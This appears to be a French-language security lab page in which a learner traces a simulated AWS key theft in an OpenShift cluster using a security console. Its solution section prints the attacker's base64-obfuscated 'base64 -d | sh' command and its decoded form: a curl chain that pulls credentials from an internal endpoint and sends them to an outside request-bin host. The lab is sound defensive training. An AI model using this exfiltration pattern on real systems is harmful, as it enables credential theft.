 ```yaml
---
title: "Attack Flow Analysis"
draft: false
weight: 3
---
```


Nous sommes le 19 décembre 2021 (oui, vous avez bien lu, deux ans plus tôt, jour pour jour).

L'équipe cloud AWS vous averti qu'une clé d'API AWS a été compromise et a servi à déployer des logiciels de crypto mining.
Fort heureusement, votre société interdit la réutilisation des clés d'API pour plusieurs usages : vous êtes donc certain de l'origine de cette fuite de donnée : c'est l'application **visa-processor** qui exploite cette clé d'API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | sort | grep ^A  
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note** : les clés d'API AWS ont été caviardées dans le lab pour éviter une crise cardiaque inutile aux équipes sécurité **Red Hat**. Elles ont été remplacées par deux messages humoristiques. :)

Dans le même temps, l'équipe réseau vous averti de la présence d'un flux sortant inhabituel à destination de serveurs eux aussi hébergés sur AWS.

```
$ dig +short public.requestbin.com   
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName 
OrgTechName:   Amazon EC2 Network Operations
```

Votre mission, si vous l'acceptez, est d'investiguer l'environnement du Lab à la recherche du chemin parcouru par l'attaquant pour perpétrer cette exfiltration de données.
L'objectif est atteint quand vous trouvez l'URL du **Request Bin** utilisé par l'attaquant pour exfiltrer la clé d'API.

![Request Bin montrant la clé d'API AWS exfiltrée](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

À vous de jouer !

Indices :

- Commencez par la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`
- Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**. Cliquez sur les déploiements **information-service** et **back-office** et comparez leur flux. Lequel vous semble le plus suspicieux ?
- Retournez dans la section **Violations** et filtrez la vue avec le nom du déploiement qui vous semble le plus suspicieux.

{{%expand "Solution" %}}

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

On note bien la présence de CVE mais rien de très suspicieux.

Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**.

Cliquez sur le déploiement **back-office**.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

Les flux observés semblent légitimes.

Cliquez sur le déploiement **information-service**.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observez le flux entrant depuis le router OpenShift et le flux sortant vers AWS.
Notez également que le déploiement **information-service** communique avec le déploiement **visa-processor**.

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Notez la présence de la vulnérabilité **Log4Shell** ainsi que d'un comportement suspect au runtime: **Shell Spawned by Java Application**.

Cliquez sur la violation **Shell spawned by Java Application**.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observez la commande exécutée :

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Décodez le contenu encodé en base64 (utilisez la commande "base64 -d") :

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

La première commande **curl** exploite un bug de l'application pour récupérer la clé d'API AWS.

En temps normal, le composant **visa-processor** retourne la valeur de sa variable d'environnement **APP_ID** :

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

Mais en passant un argument supplémentaire non documenté, on peux récupérer les variables d'environnement qui suivent (par ordre alphabétique) :

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

La seconde commande **curl** exfiltre les données via le service **Request Bin**.
Connectez vous à [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) et confirmez que les données exfiltrées sont bien présentes.

{{% /expand%}}
